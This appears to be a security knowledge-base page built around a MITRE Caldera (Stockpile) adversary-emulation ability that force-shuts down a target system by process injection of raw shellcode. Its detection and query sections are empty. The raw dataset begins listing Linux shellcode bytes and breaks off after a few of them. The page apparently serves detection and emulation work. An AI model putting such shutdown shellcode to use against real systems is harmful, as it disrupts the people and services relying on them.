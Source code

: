 ## Potential Detections

```json

```

## Potential Queries

```json

```

## Raw Dataset

```json
[{'Mitre Stockpile - Force shutdown a target system using Process Injection and raw shellcode': {'description': 'Force '
                                                                                                                'shutdown '
                                                                                                                'a '
                                                                                                                'target '
                                                                                                                'system '
                                                                                                                'using '
                                                                                                                'Process '
                                                                                                                'Injection '
                                                                                                                'and '
                                                                                                                'raw '
                                                                                                                'shellcode',
                                                                                                 'id': '0821b0b0-7902-4a7b-8052-80bda5a43684',
                                                                                                 'name': 'Shutdown '
                                                                                                         'Target '
                                                                                                         'System',
                                                                                                 'platforms': {'linux': {'shellcode_amd64,shellcode_386': {'command': '0x48, '
                                                                                                                                                                      '0x31, '
                                                                                                                                                                      '0xc0, '
                                                                                                                                                                      '0x48, '
                                                                                                                                                                      '0x31, '
                                                                                                                                                                      '0xd2, '
                                                                                                                                                                      '0x50, '
                                                                                                                                                                      '0x6a, '
                                                                                                                                                                      '0x77, '
```